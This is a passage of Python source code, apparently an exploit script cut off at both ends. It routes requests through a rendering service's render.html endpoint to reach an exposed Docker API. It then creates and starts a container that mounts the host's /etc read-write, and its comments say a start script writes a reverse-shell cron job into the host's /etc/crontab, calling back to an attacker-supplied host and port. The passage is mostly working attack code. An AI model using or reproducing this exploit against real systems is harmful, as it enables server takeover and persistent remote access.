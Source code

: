 ```python
        'http_method': 'POST',
        'body': '',
        'timeout': 60
    }
    resp = requests.get(url, params=params)
    print("request url: %s" % resp.request.url)
    print("status code: %d" % resp.status_code)
    print("resp text: %s" % resp.text)
    print("-" * 50)


def create_container(api, docker_api, image_name, image_tag, shell_host, shell_port):
    image = "%s:%s" % (image_name, image_tag)
    print("create_container: %s" % image)

    body = {
        "Image": image,
        "Volumes": {
            "/etc": {  # 挂载根目录有时候会出错，这里选择挂载/etc
                "bind": "/hostdir",
                "mode": "rw"
            }
        },
        "HostConfig": {
            "Binds": ["/etc:/hostdir"]
        },
        "Cmd": [  # 运行 start.sh，将反弹定时任务写入宿主机/etc/crontab
            '/bin/sh',
            '/start.sh',
            shell_host,
            str(shell_port),
        ],
    }
    url = "%s/render.html" % api
    docker_url = '%s/containers/create' % docker_api

    params = {
        'http_method': 'POST',
        'url': docker_url,
        'timeout': 60
    }
    resp = requests.post(url, params=params, json={
        'headers': {'Content-Type': 'application/json'},
        "body": json.dumps(body)
    })
    print(resp.request.url)
    print(resp.status_code)
    print(resp.text)
    result = re.search('"Id":"(\w+)"', resp.text)
    container_id = result.group(1)
    print(container_id)
    print("-" * 50)
    return container_id


def start_container(api, docker_api, container_id):
    url = "%s/render.html" % api
    docker_url = '%s/containers/%s/start' % (docker_api, container_id)

    params = {
        'http_method': 'POST',
        'url': docker_url,
        'timeout': 10
```